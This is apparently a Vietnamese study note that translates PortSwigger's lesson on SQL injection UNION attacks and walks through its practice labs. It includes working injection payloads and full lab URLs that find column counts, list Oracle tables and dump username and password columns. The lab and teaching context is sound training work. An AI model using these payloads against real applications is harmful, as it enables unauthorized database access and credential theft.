

Link: https://portswigger.net/web-security/sql-injection/union-attacks

# SQL injection UNION attacks
Khi một ứng dụng dễ bị tấn công bởi SQLi và kết quả của truy vấn được trả về trong **phản hồi** của ứng dụng đó, bạn có thể sử dụng từ khóa `UNION` để truy xuất dữ liệu từ các bảng khác trong cơ sở dữ liệu. Điều này thường được gọi là cuộc tấn công `UNION` trong SQLi.\
Từ khóa `UNION` cho phép bạn thực hiện một hoặc nhiều truy vấn `SELECT` bổ sung và nối kết quả vào truy vấn ban đầu. Ví dụ:\
`SELECT a, b FROM table1 UNION SELECT c, d FROM table2`\
Truy vấn SQL này trả về một tập kết quả duy nhất có hai cột, chứa các giá trị từ cột `a` và `b` trong `table1` và cột `c` và `d` trong `table2`.\
Để truy vấn `UNION` hoạt động, phải đáp ứng **2 yêu cầu chính**:
- Các truy vấn riêng lẻ phải trả về cùng số cột.
- Các *kiểu dữ liệu* trong mỗi cột phải *tương thích* giữa các truy vấn riêng lẻ.

Để thực hiện cuộc tấn công `UNION` SQLi, hãy đảm bảo rằng cuộc tấn công của bạn đáp ứng hai yêu cầu này. Điều này thường liên quan đến việc tìm hiểu:
- Có bao nhiêu cột được trả về từ truy vấn ban đầu.
- Những cột được trả về từ truy vấn ban đầu thuộc loại dữ liệu phù hợp để chứa kết quả từ truy vấn được chèn.

## Determining the number of columns required (Xác định số cột)
Khi bạn thực hiện một cuộc tấn công `UNION` SQLi, có hai phương pháp hiệu quả để xác định số lượng cột được trả về từ truy vấn ban đầu.\
Một phương pháp liên quan đến việc đưa vào một loạt mệnh đề `ORDER BY` và tăng chỉ số cột được chỉ định cho đến khi xảy ra lỗi. Ví dụ: nếu điểm chèn là một chuỗi được trích dẫn trong mệnh đề `WHERE` của truy vấn ban đầu, bạn sẽ gửi:
```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc.
```
Payload này sửa đổi truy vấn ban đầu để sắp xếp kết quả theo các cột khác nhau trong tập kết quả. Cột trong mệnh đề `ORDER BY` có thể được chỉ định bởi chỉ mục của nó, vì vậy bạn không cần biết tên của bất kỳ cột nào. Khi chỉ mục cột được chỉ định vượt quá số cột thực tế trong tập kết quả, cơ sở dữ liệu sẽ trả về lỗi, chẳng hạn như:\
`The ORDER BY position number 3 is out of range of the number of items in the select list.`\
Ứng dụng thực sự có thể trả về lỗi cơ sở dữ liệu trong **phản hồi HTTP** của nó, nhưng nó cũng có thể đưa ra **phản hồi lỗi chung**. Trong các trường hợp khác, **nó có thể không trả lại kết quả nào cả**. Dù bằng cách nào, miễn là bạn có thể phát hiện ra một số khác biệt trong phản hồi, bạn có thể suy ra số lượng cột được trả về từ truy vấn.\
Phương pháp thứ hai liên quan đến việc gửi một loạt tải trọng `UNION SELECT` chỉ định một số giá trị null khác nhau:
```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```
Nếu số lượng `null` không khớp với số cột thì cơ sở dữ liệu sẽ trả về lỗi, chẳng hạn như:\
`All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.`
Chúng tôi sử dụng `NULL` làm giá trị được trả về từ truy vấn `SELECT` được chèn vì các kiểu dữ liệu trong mỗi cột phải tương thích giữa truy vấn gốc và truy vấn được chèn. `NULL` có thể chuyển đổi thành mọi loại dữ liệu phổ biến, do đó, nó tối đa hóa khả năng tải trọng sẽ thành công khi số cột chính xác.\
Giống như kỹ thuật `ORDER BY`, ứng dụng thực sự có thể trả về lỗi cơ sở dữ liệu trong **phản hồi HTTP** của nó, nhưng có thể **trả về lỗi chung** hoặc đơn giản là **không trả về kết quả nào**. Khi số lượng `null` khớp với số cột, cơ sở dữ liệu sẽ trả về một hàng bổ sung trong tập kết quả, chứa các giá trị `null` trong mỗi cột. Hiệu ứng đối với phản hồi HTTP phụ thuộc vào mã của ứng dụng. Nếu may mắn, bạn sẽ thấy một số nội dung bổ sung trong phản hồi, chẳng hạn như một hàng bổ sung trên bảng HTML. Nếu không, giá trị `null` có thể gây ra lỗi khác, chẳng hạn như `NullPointerException`. Trong trường hợp xấu nhất, phản hồi có thể trông giống như phản hồi do số lượng giá trị rỗng không chính xác. Điều này sẽ làm cho phương pháp này không hiệu quả.

Ví dụ: https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns

Payload: `https://0a9e00b30396c52f801fa5ab00ab0058.web-security-academy.net/filter?category=%27%20union%20select%20null,%20null,%20null%20--`

```' UNION SELECT NULL,NULL,NULL--```

## Database-specific syntax
Trên Oracle, mọi truy vấn `SELECT` phải sử dụng từ khóa `FROM` và chỉ định một bảng hợp lệ. Có một bảng tích hợp trên Oracle được gọi là `dual` có thể được sử dụng cho mục đích này. Vì vậy, các truy vấn được chèn vào Oracle sẽ có dạng:\
`' UNION SELECT NULL FROM DUAL--`\
Payload sử dụng chuỗi comment dấu gạch ngang kép `--` để comment phần còn lại của truy vấn ban đầu sau điểm chèn. Trên MySQL, chuỗi dấu gạch ngang kép `--` phải được theo sau bởi **khoảng trắng**. Ngoài ra, ký tự băm `#` có thể được sử dụng để comment.\
Để biết thêm chi tiết về cú pháp dành riêng cho cơ sở dữ liệu, hãy xem bảng https://portswigger.net/web-security/sql-injection/cheat-sheet

## Finding columns with a useful data type
Cuộc tấn công UNION chèn SQL cho phép bạn truy xuất kết quả từ một truy vấn được chèn. Dữ liệu thú vị mà bạn muốn truy xuất thường ở dạng chuỗi. Điều này có nghĩa là bạn cần tìm một hoặc nhiều cột trong kết quả truy vấn ban đầu có kiểu dữ liệu là hoặc tương thích với dữ liệu chuỗi.\
Sau khi xác định số lượng cột cần thiết, bạn có thể thăm dò từng cột để kiểm tra xem cột đó có thể chứa dữ liệu chuỗi hay không. Bạn có thể gửi một loạt tải trọng `UNION SELECT` lần lượt đặt giá trị chuỗi vào từng cột. Ví dụ: nếu truy vấn trả về bốn cột, bạn sẽ gửi:
```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```
Nếu kiểu dữ liệu cột không tương thích với dữ liệu chuỗi thì truy vấn được chèn sẽ gây ra lỗi cơ sở dữ liệu, chẳng hạn như:\
`Conversion failed when converting the varchar value 'a' to data type int.`\
Nếu lỗi không xảy ra và phản hồi của ứng dụng chứa một số nội dung bổ sung bao gồm giá trị chuỗi được chèn thì cột liên quan sẽ phù hợp để truy xuất dữ liệu chuỗi.

Ví dụ: https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text

Payload: `https://0aff003c030df72680c826cd0002002b.web-security-academy.net/filter?category=%27%20union%20select%20null,%20%27OJdhiW%27,%20null%20--`

## Using a SQL injection UNION attack to retrieve interesting data
Khi bạn đã xác định được số cột được truy vấn ban đầu trả về và tìm thấy cột nào có thể chứa dữ liệu chuỗi, bạn đã có thể truy xuất dữ liệu thú vị.
Giả sử rằng:
- Truy vấn ban đầu trả về hai cột, cả hai cột đều có thể chứa dữ liệu chuỗi.
- Điểm chèn là một chuỗi được trích dẫn trong mệnh đề `WHERE`.
- Cơ sở dữ liệu chứa một bảng được gọi là `users` với các cột `username` và `password`.

Trong ví dụ này, bạn có thể truy xuất nội dung của bảng `users` bằng cách gửi dữ liệu đầu vào:\
`' UNION SELECT username, password FROM users--`

Để thực hiện cuộc tấn công này, bạn cần biết rằng có một bảng tên là `users` với hai cột tên là `username` và `password`. Nếu không có thông tin này, bạn sẽ phải đoán tên của các bảng và cột. Tất cả các cơ sở dữ liệu hiện đại đều cung cấp các cách để kiểm tra cấu trúc cơ sở dữ liệu và xác định chúng chứa những bảng và cột nào.

Ví dụ: https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables

Tìm số cột: \
`https://0a9e00ba0407cca7821199ee0023003f.web-security-academy.net/filter?category=%27%20union%20select%20null,%20null%20--`\
Bài này cho sẵn tên bảng vs tên các cột nên chỉ cần: 
`https://0a9e00ba0407cca7821199ee0023003f.web-security-academy.net/filter?category=%27%20union%20select%20username,%20password%20FROM%20users%20--`

Nếu cần khai thác thêm thì ta sẽ biết được loại SQL sử dụng: `https://0a9e00ba0407cca7821199ee0023003f.web-security-academy.net/filter?category=%27%20union%20select%20null,%20version()%20--`


## Retrieving multiple values within a single column (Truy xuất nhiều giá trị trong 1 cột)
Trong một số trường hợp, truy vấn trong ví dụ trước chỉ có thể trả về một cột duy nhất.\
Bạn có thể truy xuất nhiều giá trị cùng nhau trong một cột này bằng cách ghép các giá trị lại với nhau. Bạn có thể thêm dấu phân cách để phân biệt các giá trị kết hợp. Ví dụ: trên Oracle bạn có thể gửi đầu vào:\
`' UNION SELECT username || '~' || password FROM users--`\
Điều này sử dụng chuỗi ống đôi `||` đó là toán tử nối chuỗi trên Oracle. Truy vấn được chèn nối các giá trị của trường username và password lại với nhau, được phân tách bằng ký tự `~`.\
Kết quả từ truy vấn chứa tất cả tên người dùng và mật khẩu, ví dụ:
```
...
administrator~s3cure
wiener~peter
carlos~montoya
...
```

Ví dụ: https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column

Bài này chỉ cho string ở trường thứ 2: `https://0a7c0045049b327080a2711000a6003c.web-security-academy.net/filter?category=%27%20union%20select%20null,%20%27null%27%20--`


Cách đơn giản là ta chỉ truy xuất password rồi thử hết với username `administrator` :
`https://0a7c0045049b327080a2711000a6003c.web-security-academy.net/filter?category=%27%20union%20select%20null,%20password%20FROM%20users%20--`

Hoặc ta sẽ dùng nối chuỗi để xem được cả username - password: 
Đầu tiên ta sẽ biết nó dùng PostgreSQL : `https://0a7c0045049b327080a2711000a6003c.web-security-academy.net/filter?category=%27%20union%20select%20null,%20version()%20FROM%20users%20--`

Sau đó ta sẽ biết cách nối chuỗi:
`https://0a7c0045049b327080a2711000a6003c.web-security-academy.net/filter?category=%27%20union%20select%20null,%20username%20||%20%27---%27%20||%20password%20FROM%20users%20--`



### Ví dụ thêm về Union: 

Lab: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle

Xác định tên các table:
`https://0ad7002e03348430803d4a3000a200f6.web-security-academy.net/filter?category=%27%20union%20select%20%27null%27,%20table_name%20FROM%20all_tables%20--`

Xác định tên các cột:
`https://0ad7002e03348430803d4a3000a200f6.web-security-academy.net/filter?category=%27%20union%20select%20%27null%27,%20column_name%20FROM%20all_tab_columns%20WHERE%20table_name=%27USERS_GJNSVS%27--`

Xác định nội dung trong table: 
`https://0ad7002e03348430803d4a3000a200f6.web-security-academy.net/filter?category=%27%20union%20select%20%27USERNAME_WOQMGF%27,%20PASSWORD_JZCEBQ%20FROM%20USERS_GJNSVS%20--`


